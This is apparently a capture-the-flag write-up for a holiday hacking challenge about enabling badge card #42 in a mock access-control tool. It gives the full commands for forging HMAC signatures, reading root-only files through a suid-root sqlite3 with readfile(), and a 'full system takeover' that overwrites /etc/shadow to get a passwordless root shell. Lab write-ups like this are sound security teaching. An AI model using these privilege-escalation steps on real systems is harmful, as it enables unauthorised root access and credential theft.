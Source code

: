 
# Objective 7: Hardware Hacking 101 Part 2

**Difficultree: 🎄**  
**Location: The Front Yard**

The objective is to enable badge card #42 for access in the "Santa's Little Helpers" tool.

## Easy 🥈
For this mode, a hint is provided to look into the history of the shell.
In fact, in the history this command is captured:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
```

So using the following command, the objective can be cleared for the easy mode:
```
slh --passcode CandyCaneCrunch77 --set-access 1 --id 42
```
**Achievement: [Silver] Hardware Hacking 101 Part 2**

### alternative part 2/easy
Using the HMAC secret key obtained below along with [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%27873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) the HMAC can be calculated and the database updated directly:
```
sqlite> .open access_cards
sqlite> update access_cards set access=1,sig='e96c7dc0f25ebcbc45c9c077d4dc44adb6e4c9cb25d3cc8f88557d9b40e7dbaf' where id=42;
```
This clears the objective once the validation is triggered using `slh --view-card 42`.

## Hard 🥇
For the hard part, the process `/root/check_hmac`is checking every 5 seconds the contents of the database.

A lot of investigation was performed and - presumably - it was not solved in the intended way.

All access card information along with the tool config is stored in the sqlite3 file "access_cards". The file is writable only by `root`, but the "slh" tool and "sqlite3" are suid `root`.

Database schema and the data for card #42 look like this:
```
sqlite> .open access_cards
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );

sqlite> select * from config;     
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0

sqlite> select * from access_cards where id=42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
Interestingly, when creating (using CyberChef as mentioned in the hints) the HMAC with SHA256 and the key from `hmac_secret` for `access` concatenated with the UUID of card #42
```
0c06018b6-5e80-4395-ab71-ae5124560189
```
it does not result in the value captured in the database table.   
Table:   
```
ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
```
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) (using the key as UTF8 string):   
```
34f4ccd2fda66ac2f3ed2136ce6cddecac92a4437fd2e0fc4ebaad61bc5893eb
```

So it seems, that the captured `hmac_secret` is not the key being used to calculate this HMAC.

Scanning the system shows, that apart from `slh`and `sqlite3` also `runtoanswer`is suid root.
For the hard mode, `runtoanswer`reads its config from `/etc/runtoanswer/hard.yaml`, which is unfortunately only accessible by `root`. The tool asks for the HMAC key being used to calculate the signatures.

But - it is possible to read the file with the help of `sqlite3`, as it is suid `root`:
```
sqlite> CREATE TABLE yaml(data BLOB);
sqlite> INSERT INTO yaml(data) VALUES(readfile('/etc/runtoanswer/hard.yaml'));
sqlite> select * from yaml;
# This is the config file for runtoanswer, where you can set up your challenge!
---
title: "Hard"
# This is the completionSecret from the Content sheet - don't tell the user this!
key: a08b747109942489cd74fc89e66d7c4c

Action: "hard"

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34"
```
The validation using Cyberchef confirms, that this is the right key: https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':'873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34'%7D,'SHA256')&input=MGMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ
 
 So starting `runtoanswer` and providing it the answer `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` 
 clears the objective.   
**The `runtoanswer`binary along with the config files in `/etc/runtoanswer` was removed from the system in the meantime.**

**Achievement: [Gold] Hardware Hacking 101 Part 2**

### alternative part 2/hard I
Using the `hmac_secret` from the database it is possible to create the correct signature using [CyberChef](https://gchq.github.io/CyberChef/#recipe=HMAC%28%7B%27option%27:%27UTF8%27,%27string%27:%279ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e%27%7D,%27SHA256%27%29&input=MWMwNjAxOGI2LTVlODAtNDM5NS1hYjcxLWFlNTEyNDU2MDE4OQ) for the payload `1c06018b6-5e80-4395-ab71-ae5124560189`.   
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```

### alternative part 2/hard II
Analyzing the `check_hmac` tool (provided below) shows, that it checks for the signature `135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096`.
So setting this signature in the database for card 42 immediately clears the objective.
```
sqlite> .open access_cards
sqlite> update access_cards set sig='135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096' where id=42;
```
The objective is cleared regardless of the `access`value, because `check_hmac` does only look at the signature using this statement:
`SELECT sig FROM access_cards WHERE id = 42`

---
### HMAC secrets
The HMAC secret found in the database is the SHA256 hash of "pizza".    The HMAC secret which has to be used to create a valid signature is the SHA256 hash of "cheese".

### SLH_PASSCODE 
The expected passcode can be supplied in the environment variable `SLH_PASSCODE`:   
![slh passcode in ENV](slh-env.png)

### hard coded credentials
The passcode `CandyCaneCrunch77`found in the shell history is hard coded in the slh binary. The `admin_password` from the database is not used.   
Also the HMAC secret `873ac9ffea4dd04fa719e8920cd6938f0c23cd678af330939cff53c3d2855f34` is hard coded in the binary and not read from the database.

### binaries
The [slh](slh) and the [check_hmac](check_hmac) binaries were exfiltrated from the system and can be found in this repo for further analysis.   
This was performed using `sqlite3` as described for the retrieval of `/etc/runtoanswer/hard.yaml`. The only caveat is - as we are talking about binary data here - that the `readfile()`has to be encapsulated in `hex()`.   
Once retrieved, the files can be unpacked using `pyi-archive-viewer`. They both contain a `.pyc`file (`slh`resp. `check_hmac`). At least the strings from these `.pyc`files are readable and can be used for educated guesses.   
Furthermore, as the binaries are now available locally, they can be executed using debugging tools.

### full system takeover
Using the suid root tool `sqlite3` it is possible to overwrite `/etc/shadow` with own data and with that the takeover of the system:
```
slh@slhconsole\> sqlite3
sqlite> CREATE TABLE shadow(data BLOB);
sqlite> INSERT INTO shadow(data) VALUES('root::20038:0:99999:7:::');
sqlite> SELECT writefile('/etc/shadow',data) FROM shadow;
sqlite> .exit
slh@slhconsole\> su -
root@6f03030c64e5:~# id
uid=0(root) gid=0(root) groups=0(root)

```

<!--stackedit_data:
eyJoaXN0b3J5IjpbOTM1MDU0NTI1LDU4MTUwNDUzOCwtNDA3Nz
QwNTc2XX0=
-->